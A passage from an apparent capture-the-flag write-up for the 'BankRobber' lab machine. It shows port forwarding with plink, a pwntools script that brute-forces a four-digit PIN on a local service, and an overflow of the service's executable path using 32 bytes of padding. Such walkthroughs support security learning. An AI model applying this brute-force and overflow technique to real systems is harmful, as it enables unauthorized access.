 I was unable to execute it or download it since I have no permission
so I took a look at this :

![]({{ site.baseurl }}/images/BankRobber-Writeup/13.png)

That executable may have something to do with this port (910)

I forwarded it using plink.exe :

![]({{ site.baseurl }}/images/BankRobber-Writeup/14.png)

and connected to it

![]({{ site.baseurl }}/images/BankRobber-Writeup/15.png)

now everything makes sense. It requests a PIN but already giving us precious information about its length which is 4 digits
so I wrote this python script to bruteforce it :

```python
from pwn import *

print "Brute-Force for the PIN starts..."
ts = timeit.default_timer() # for logging purpose
for i in range (0,10000):
      sock=remote('127.0.0.1',910)
      res = sock.recv(1024) #receive first response
      sock.sendline(b'%04d'%i)
      t2=timeit.default_timer() - ts
      print("Trying PIN: %04d It took : %02d:%02ds" % (i,(t2-(t2%60))/60,t2%60)) #logging
      res = sock.recv(1024) #receive second response after sending pin
      print res
      if not "Access denied," in res :
              print "PIN found ! [%04d]" % i
              sock.close()
              break
      else:
              sock.close()
```
which gave me this result :

![]({{ site.baseurl }}/images/BankRobber-Writeup/16.png)

if we login with pin=0021 :

![]({{ site.baseurl }}/images/BankRobber-Writeup/17.png)

it asks for the amount to transfer and executes transfer.exe
if we try to overflow it :

![]({{ site.baseurl }}/images/BankRobber-Writeup/18.png)

we successfully overflowed the executable path . So we can execute any executable we want
- padding length is 32 bytes
